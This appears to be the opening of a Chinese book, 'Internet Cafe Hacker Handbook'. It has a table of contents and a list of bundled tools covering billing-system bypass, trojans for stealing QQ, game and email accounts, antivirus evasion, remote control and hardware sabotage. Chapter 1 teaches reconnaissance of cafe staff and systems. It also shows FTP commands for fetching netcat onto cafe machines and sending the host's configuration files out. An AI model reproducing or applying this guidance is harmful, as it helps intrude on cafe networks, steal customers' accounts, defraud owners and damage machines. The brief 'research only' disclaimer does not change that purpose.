# 网吧黑客宝典

- **网吧受阻篇**
  - 网吧中的环境分析、菜鸟最常用命令、网吧全方位扫描、网吧的若干bug
- **网吧免费上网篇**
  - 有工具免费上网篇、无工具免费上网篇、菜鸟的免费上网心经、网吧小黑的入侵实例
- **菜鸟全面学破解**
  - 全方位破解、具体设置破解、其他设置破解、菜鸟网吧破解实例
- **网吧悠悠没商量**
  - QQ任我连环盗、网游号码任我晃、邮箱轻松任我瞄
- **攻陷网吧**
  - 网吧中的远程控制、网吧恶搞、折磨网吧没商量、叫所有电脑全都掉线、在网吧里做“懒黑客”
- **网吧安全上网**
  - 有攻有防，才是一个真正的网吧黑客！



定价：12.80元

## 电脑组装与维修技能实训

作者：吴树丰 李同元


吉林科技出版社

## 《网吧黑客宝典》作者介绍

- 笔名：生我小行
- 真实姓名：刘某（图中文字较模糊）
- 学校：张家口某学院（图中文字较模糊）
- 星级：四星级
- 现任职：68网管俱乐部论坛管理员、《网管世界》专栏报道、栏目长期编辑

## 生我小行

作者心声：生于上个世纪八十年代末、二十一世纪初，见证了世纪变迁。喜欢电脑，从最初对网络安全表面的认知，到逐步深入网吧安全层面。文中提到曾因接触网吧环境而萌生“自己开网吧”的想法，也描述了从不懂到逐步成长、最终成为网吧技术管理者的经历。

自己其实是个技术菜鸟，在很多安全问题上仍是初学者，希望与更多朋友一起研究网吧里的事情。认为网吧是大课堂，要多听、多看、多想。文末表达了对“第八军团”“68网管俱乐部”等平台与朋友支持的感谢，并强调团队协作的重要性。

- 笔名：战神MARS
- 真实姓名：李同硕
- 学校：东营职业学院
- 星级：四星级

## 战神MARS

作者心声：听别人说“MARS”一词应是古罗马神话中的战神。文中强调，不应成为制造黑暗的源头，而应面对现实生活挑战；并以“战神”意象表达积极、坚韧与责任感。

本书写作过程中感谢许多人的帮助，特别感谢母亲、亲友及同伴的大力支持。还提到与搭档在资料编写过程中相互鼓励，表达了对合作与坚持的感激。

> 最后（生我小行）：战神MARS提示，技术只供研究，切记不要恶搞，否则后果与两位作者和刘冰无关。

## 目录

# 网吧黑客宝典

## 第1章 网吧零距离

- 1.1 环境分析 …… 8
- 1.2 网吧常用命令 …… 10
  - 1.2.1 基础FTP要牢记 …… 10
  - 1.2.2 不要总说net是“网” …… 11
  - 1.2.3 几点死机，自己说的算 …… 12
  - 1.2.4 copy命令不可少 …… 13
  - 1.2.5 echo绝对不是废物命令 …… 13
  - 1.2.6 不能不知道的命令 …… 14
- 1.3 网吧全方位扫描 …… 14
  - 1.3.1 扫描工具的分类 …… 14
  - 1.3.2 菜鸟的扫描工具 …… 15
- 1.4 网吧的若干bug …… 18

## 第2章 网吧免费上网

- 2.1 无工具免费上网篇 …… 21
  - 2.1.1 小CASE对付同联计费系统 …… 21
  - 2.1.2 轻松破解美萍网吧管理专家 …… 22
  - 2.1.3 瞬间破解万象网管2004计费系统 …… 23
  - 2.1.4 再破万象网管计费系统 …… 24
- 2.2 有工具免费上网 …… 25
  - 2.2.1 “机时小偷”使你免费上网没商量 …… 25
  - 2.2.2 防火墙帮你免费上网 …… 27
- 2.3 菜鸟的免费上网心经 …… 28
  - 2.3.1 启动模式法 …… 28
  - 2.3.2 “注册表”法 …… 29
  - 2.3.3 腾讯QQ法 …… 30
  - 2.3.4 “卸载精灵” …… 31
  - 2.3.5 “任务管理器” …… 31
  - 2.3.6 “偷天换日，瞒天过海”大法 …… 32
  - 2.3.7 “PUB4破解精灵V2005” …… 36
- 2.4 网吧小黑的入侵实例 …… 36
  - 2.4.1 确定网吧主机 …… 36
  - 2.4.2 菜鸟的入侵加钱 …… 37

## 第3章 菜鸟全面学破解

- 3.1 下载全方位破解 …… 41
  - 3.1.1 金山毒霸6破解还原精灵 …… 41
  - 3.1.2 硬盘保护卡克星 …… 41
  - 3.1.3 还原卡密码读取器 …… 42
  - 3.1.4 禁止使用“我的电脑” …… 43
  - 3.1.5 解除鼠标右键限制 …… 44
  - 3.1.6 解除下载限制 …… 44
  - 3.1.7 解开F8屏蔽与解除右键屏蔽 …… 45
- **3.2 具体设置破解** …… **45**
  - 3.2.1 原理剖析 …… 45
  - 3.2.2 破解注册表封锁 …… 46
  - 3.2.3 破解硬盘封锁 …… 47
  - 3.2.4 显示启动菜单 …… 48
  - 3.2.5 显示隐藏文件（文件夹） …… 49
  - 3.2.6 显示“开始”菜单的菜单项 …… 49
  - 3.2.7 显示桌面图标 …… 50
  - 3.2.8 显示控制面板 …… 51
  - 3.2.9 打开CMD …… 51
  - 3.2.10 软驱 …… 52
  - 3.2.11 几款网吧解限工具 …… 53
- **3.3 其他设置破解** …… **54**
- **3.4 菜鸟网吧破解实例** …… **59**

## 第4章 网吧悠悠没商量

- **4.1 QQ任我连环盗** …… **65**
  - 4.1.1 木马软件 …… 65
  - 4.1.2 种植者 …… 67
  - 4.1.3 限制下种马 …… 68
  - 4.1.4 网吧批量种马 …… 68
  - 4.1.5 QQ暴力破解器 …… 68
- **4.2 网游号码任我玩** …… **69**
  - 4.2.1 毁灭火影木马生成器 …… 69
  - 4.2.2 传奇木马潜伏者 …… 69
  - 4.2.3 冰河盗账号 …… 69
  - 4.2.4 魔兽世界账号任你盗 …… 70
  - 4.2.5 盗“边锋号”没商量 …… 71
  - 4.2.6 多款游戏一起盗 …… 73
  - 4.2.7 密码监听器 …… 74
- **4.3 邮箱轻松任我赚** …… **76**
  - 4.3.1 “伊妹儿窃密者”1.01版使用说明 …… 76
  - 4.3.2 利用嗅探工具捕获电子邮件 …… 76
  - 4.3.3 如何大量“窃取”E-mail地址 …… 77

## 第5章 大闹网吧

- **5.1 远程控制** …… **81**
  - 5.1.1 简单的内网远程控制 …… 81
  - 5.1.2 专业级的远程控制软件进行远程控制 …… 85
  - 5.1.3 谢谢 …… 89
- **5.2 网吧恶搞** …… 92
  - 5.2.1 系统崩溃没商量 …… 92
  - 5.2.2 掉线好简单 …… 92
  - 5.2.3 泡MM英雄本色 …… 93
  - 5.2.4 发短信也玩酷 …… 95
  - 5.2.5 恶作剧想搞就搞 …… 97
- **5.3 折磨网吧没商量** …… 100
  - 5.3.1 CMOS破坏 …… 100
  - 5.3.2 CIH类破坏 …… 100
  - 5.3.3 硬盘类破坏 …… 101
  - 5.3.4 超频破坏 …… 101
  - 5.3.5 系统破坏 …… 101
  - 5.3.6 破解密码 …… 101
  - 5.3.7 木马破坏 …… 101
  - 5.3.8 其他破坏 …… 102
  - 5.3.9 更多破坏 …… 102
  - 5.3.10 卧虎藏龙的破坏 …… 102
  - 5.3.11 叫所有机器全部掉线 …… 102
- **5.5 在网吧里做“懒黑客”** …… 105
  - 5.5.1 “网吧同步专家”抓肉鸡 …… 105
  - 5.5.2 最傻的免费上网大法 …… 105
  - 5.5.3 做一个破解硬盘锁定的网页 …… 106
  - 5.5.4 长春再度“懒办法”免费上网 …… 107
  - 5.5.5 免费获得QQ秀 …… 108
  - 5.5.6 教你免费获得QQ秀合影的方法 …… 109
  - 5.5.7 “懒”菜鸟，也要自由 …… 110

## 第6章 网吧安全上网

- 6.1 隐藏IP …… 114
- 6.2 限制和关闭不需要的端口 …… 118
  - 6.2.1 删除不需要的协议 …… 118
  - 6.2.2 利用TCP/IP筛选 …… 119
  - 6.2.3 IPSEC安全策略 …… 120
- 6.3 Cookies安全 …… 121
- 6.4 删除共享 …… 121
- 6.5 QQ聊天记录安全 …… 123
- 6.6 天网防火墙 …… 125
- 6.7 下网之后 …… 128

## 光盘目录


### 图书相关

- **绿鹰PC万能精灵**：一款集系统优化、病毒清理、黑客防御、QQ娱乐于一体的综合软件。
- **机时小偷**：使用本软件突破网管软件的限制，使用户无需掌握什么高深计算机知识，也无需对操作系统和网管软件进行设置或修改，只要你懂得电脑的基本操作就够了。
- **卸载精灵**：已经厌倦了Windows控制面板那个功能很弱的“添加/删除程序”了吗？你是否发现你的电脑里面有些软件无法卸载？卸载精灵的智能卸载功能可以干净彻底地卸载软件。
- **ACCESS密码查看器**：当您忘记自己的ACCESS数据库密码时，可用此工具查看。
- **Radmin影子版**：远程控制软件，可以远程管理公司或个人计算机实现远程办公。
- **月光搜索**：域名版能快速搜索一段网址的域名，解析速度极快！拨号上网1小时可以扫描一个B类。月光搜索追捕版可以快速搜索一段网址的机器名和域名，解析速度极快。
- **Pubwin4破解精灵**：增加在系统托盘处伪装PUBWIN4图标功能，让网管更不易察觉。
- **金山毒霸**：含杀病毒、防杀间谍软件、隐私保护、防黑客和木马入侵、防网络钓鱼、文件粉碎器、抢先加载、垃圾邮件过滤、主动漏洞修复、安全助手等功能。
- **木马免杀器**：为了防止被杀毒软件更新查杀软件，病毒库和解密免杀器的压缩算法加壳后的软件可以再次使用别的加壳软件进行加壳。
- **精锐还原精灵密码读取器**：这个程序就专门用于2000/XP系统读取还原精灵密码。
- **网吧黑手**：一个帮助解除网吧限制的好工具。
- **还原精灵清除器**：用于清除还原精灵，还你一个正常的MBR，当然不会清除分区的，用于网管忘记了管理密码使用，执行该程序后。
- **EXE文件合并粉碎机**：这个软件能够将两个EXE文件合并在一起，生成一个新的EXE文件，运行这个新的EXE文件，就相当于运行原来的两个EXE文件。适合于程序补丁制作，本软件还可以彻底粉碎文件功能，使其不可恢复。
- **魔兽世界木马生成器**
- **商舟@海量邮箱窃取大师**
- **网络执法官**：局域网管理辅助软件，采用网络底层协议，能穿透客户端防火墙对网络中的每一台主机。
- **边锋杀手**：一款边锋在线游戏窃密的软件。
- **行者无疆**：基于IE内核开发的单窗口、多页面网络浏览器。速度快、消耗资源少。

### 黑客推荐

- **小鱼精品PHP木马**
- **SecureCRT**：是高度可定制的终端仿真器，适用于Internet和Intranet，支持IPv6标准。
- **桂林老兵ShellClient**
- **图片木马生成器**：软件除了隐藏性超强外，还可以供大家长期使用，永远不会被查杀。
- **米莉远程控制**：迷你型的远程控制软件，界面简洁，使用方便。
- **MD5CrackSp**：加快速度，提高准确度，超线程！是您破解MD5的绝佳必备工具。
- **加密网页查看器**：无论用网页加密工具加密还是用encode加密，都可以轻松看到加密前的源代码。

### 资源追溯

- ASP专题文档集CHM
- 黑客入侵之路
- 黑客任务实战——攻略篇
- 黑客进行时
- CS攻略大全
- 进程知识库
- PHP精华文章
- 注册表修改快速入门
- Bifrost彩虹完全免杀教程
- PcShare之sys文件免杀教程

### 娱乐目录

- 【游戏】特种任务
- 【游戏】喜欢“找不同”的筒子们进来
- 【搞笑】《我是一只只只小鸟》3版
- 【搞笑】芙蓉VS王蓉
- 【音乐】《亲爱的你怎么不在我身边》5版
- 【情感小品】蓝色的彼岸
- 【视频】可怜猫咪被臭气熏倒
- 【视频】林志玲的百变造型
- 【视频】张娜拉与帅哥的艳遇



## 第1章 网吧零距离

### 1.1 环境分析

中国有句古话：“知己知彼，百战不殆。”因此黑客和入侵者都在默默遵守这条规则——从不入侵自己不了解情况的主机。作为网吧黑客，在对网吧进行入侵、破解之前，也应对网吧的信息进行搜集。不过这些信息收集也是有极强针对性的，下面就从一个网吧黑客的角度出发，讲一下如何对网吧进行有效的环境分析。

信息收集就是对目标主机及其相关设施、管理人员进行公开或非公开的检测，用于对攻击目标安全防卫工作的掌握，这是攻击的前奏。同样地，对网吧进行信息收集，也是对网吧电脑和网管进行信息的收集。网吧里也不外乎有人和机器。人就是指网管和网民，机器就是网吧里的电脑和相关的设施。有人或许会认为这人有什么研究啊？这是一个多么严重的失误啊！孰不知，这里的“人”才是最重要的；是最值得研究和收集信息的。不信，那我问你几个问题好了：网吧的电脑系统是由谁来安装的？电脑上的各种软件是由谁来选择？网吧的网络安全由谁来维护？这些问题都关系到整个网吧的网络安全。网管的技术水平决定了他的能力，决定了维护网吧网络安全的能力。那么研究网管究竟研究什么呢？

这个问题问得好。依我看来，研究网管就要了解网管的技术水平和学历层次。这些可以通过社会工程学来完成，调动你所有的人际关系要做到这一点应该不难办到吧？每个人都会认识很多人，而且人多口杂，这些小的信息应该很简单就可以搞到。总不至于当面去问网管自己吧？不过光了解上面这些还不够。学历层次是硬件，还要看他的软件——了解他这个人的性格和脾气，如他是比较懒惰还是比较勤快；是做事马马虎虎还是做事兢兢业业。懒惰、做事马马虎虎的网管即使水平比较高，他维护的网络也可能漏洞百出。

研究网民也有一定的必要性。为何？因为我们在网吧上网，难保不会有人在网吧玩黑，或者下马。网民的计算机水平参差不齐，但其中也不乏许多网络高手。如果我们上网时麻痹大意，很有可能会中招，轻则会泄漏一些自己上网的信息，重则我们的一些重要账户密码就要被人搞走了。技术菜的网管或者比较懒惰的网管，对网吧的网络安全维护往往不很用心，结果是网吧的网络安全状况极差，电脑存在这样或那样的漏洞，极易被一些别有用心者利用。那么我们上网时就可要小心一点了。

一般高校比较多的城市的网吧，其网管大多都是由在校的计算机系高年级学生来担任的，这些人对于局域网的安装、维护有一定的基础，毕竟人家是专业人士嘛！但是关于网络安全方面的技术，他们了解得却并不一定比网吧黑客们多。除非这个网管本身是对网络安全（黑客技术）很感兴趣，而且花了许多时间和精力研究过的。否则，在网络安全方面他们也可能会是个文盲。而在中学附近或是村镇上的小网吧，网络安全状况就更是十分糟糕了。随便使用个扫描工具，就会发现漏洞百出，甚至N年前的漏洞都有。不过说实话，正是因为有了这样的一些傻瓜级网管的存在，才为小菜们在网吧快速成长创造了一个良好的环境，毕竟各种限制不多，而且还有很多漏洞，许多事情做起来都会相当轻松。网吧的上网人群很是复杂。因为只要你给钱，他才不管你是未成年人与否呢！一般人上网的目的也不外乎就是上网聊天、听歌或者看电影，也有许多网络游戏的痴迷者，再就是那些黑客了，他们在上网时可不会规规矩矩的，我们在网吧上网可要提防这些人，害人之心不可有，但防人之心不可无啊。有关在网吧安全上网的具体问题我们将在最后一章做详细探讨，在此就不细说了。

好了，有关人的问题先告一段落，下面谈谈网吧中电脑的问题，这才是重点啊。我们破解所面临的直接环境就是它，网管只是间接的环境。观察一个网吧的电脑，开机后最先看到的就是操作系统，客户机使用的不外乎Windows 98、Windows 2000或Windows XP。网吧主机使用的操作系统基本上是Windows 2000 Server、Windows 2003。网吧主机所使用操作系统通常会比客户机的版本高。在入侵过程中我们需要先知道的就是对方使用的操作系统，还有其安装的补丁情况。



图1.1

我们可以使用鼠标右击“我的电脑”，在弹出的快捷菜单中选择“属性”，如图1.1。就可以打开“系统属性”窗口，我们可以在它的“常规”标签中获取本机的一些具体情况，包括操作系统的版本、补丁程序的安装情况，还有系统的常见技术指标、注册的用户等信息，如图1.2。从图1.2中我们可以了解到本机的系统为Windows 2000 Professional + SP4。



图1.2

知道了操作系统信息后，我们就可以根据微软每月公布的安全公告来推测对方可能存在的安全漏洞，为成功的入侵网吧创造良好的条件。

除了操作系统外，网管软件也是一个重要的目标；尤其是要获取它的版本号。因为许多破解方法只限定于某一特定版本的网管软件。现在市面上的网管软件挺多的，什么“万象”“方竹”“网络妙管家”“美萍安全卫士”“Pubwin”等等。每位网民遇到的可能都不太一样。不过万变不离其宗，有许多方法你都可以变通的。

由于是公共的上网场所，网吧一般会安装上还原精灵、还原卡之类的系统还原工具。还原精灵一般比较容易破解，如果是还原卡就有点复杂了，至少我们需要先搞清楚是什么还原卡。还原精灵版本比较多，据我所知还原精灵就有5.0、2002、6.1三种版本。

诸如操作系统、使用的网管软件、系统开启的服务、使用的杀毒软件以及还原软件等，都是需要我们获取的非常重要的信息，只有这第一步进行好了，我们在破解时才能少走弯路。

### 1.2 网吧常用命令

任何时期、任何地点、任何网吧都有一些小菜鸟或小黑客，他们或者初出茅庐，或者才开始领悟网络的真谛，于是网吧就成了他们最好的演习之地。本章要讲解的主题就是——系统操作命令！正如佛有佛法，道有道规一样，在网吧里常用的命令正是小菜们奔向小黑的必经之地，因此其重要性是不言而喻的。

### 1.2.1 基础FTP要牢记

这是一个非常非常重要的命令，它可以将你的一些常用工具传到网吧的电脑上来使用，也可以将诸如网吧主机的一些重要配置文件传到你的FTP空间上，留待回去后慢慢研究。

首先，我们可以申请一个支持FTP上传的空间，国内免费的也有许多，虽然普遍空间都很小，不过存储一些最常用的工具已经足够了。

我们可以使用**FTP申请的空间域名**或者**FTP空间的IP地址**来进行连接，然后按照提示，输入用户名及密码就可以成功登录了，如图1.3。

假设我们要将FTP空间中的`nc.exe`下载下来，可以使用`get nc.exe`，这样就……



会将 FTP 当前目录下的 nc.exe 下载到我们本地的当前目录了，如图 1.4。倘若是要将文件上传到 FTP 空间的话，我们可以使用 **put 文件名**，将当前目录下的文件上传到 FTP 的当前目录上。



图 1.4

除了在命令提示符下使用 ftp 命令外，我们也可以在地址栏中来使用。打开“我的电脑”，在地址栏上输入 FTP 空间域名或是其 IP 地址，`ftp://***.51.net`，然后就会出现一个登录身份的对话框，输入我们的用户名及密码，也可以正常登录，如图 1.5。

